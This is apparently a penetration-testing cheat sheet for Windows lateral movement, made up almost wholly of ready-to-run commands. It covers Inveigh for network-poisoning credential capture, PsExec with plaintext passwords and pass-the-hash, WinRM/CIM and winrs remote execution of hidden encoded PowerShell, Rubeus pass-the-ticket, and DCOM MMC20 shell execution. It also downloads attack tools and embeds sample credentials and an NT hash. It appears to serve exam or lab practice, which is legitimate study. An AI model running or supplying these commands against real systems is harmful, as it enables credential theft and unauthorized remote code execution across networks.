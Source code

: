 ## Inveigh
```powershell
wget https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1
Start-Job {Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y}
Start-Job {Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y}


wget https://github.com/Kevin-Robertson/Inveigh/releases/download/v2.0.10/Inveigh-net4.6.2-v2.0.10.zip
unzip Inveigh-net4.6.2-v2.0.10.zip
Start-Job {.\Inveigh.exe -Console 5 -NBNS y -FileOutput y -LogOutput y}
Receive-Job -Id
Stop-Job -Id 
```
## PsExec
```powershell
wget https://download.sysinternals.com/files/PSTools.zip

.\PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd

wget https://github.com/maaaaz/impacket-examples-windows/raw/master/psexec.exe
.\psexec.exe htb.local/tom_admin@10.10.164.146 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0

# OTH
net use \\files04
.\PsExec64.exe \\PC1 cmd --accepteula
```
## winRM
```powershell
# winrm
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options
$Command = 'powershell -nop -w hidden -e';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

# winrs 
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e "

# restrict ticket on host RDP
.\Rubeus.exe asktgt /user:leonvqz /rc4:32323DS033D176ABAAF6BEAA0AA681400 /nowrap
.\Rubeus.exe createnetonly /program:powershell.exe /show
.\Rubeus.exe ptt /ticket:
Enter-PSSession SRV02.oscp.exam -Authentication Negotiate
```
## DCOM
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e   ","7")

$mmc = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","172.20.0.52"));
$mmc.Document.ActiveView.ExecuteShellCommand("powershell.exe",$null,"-e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==",0)
```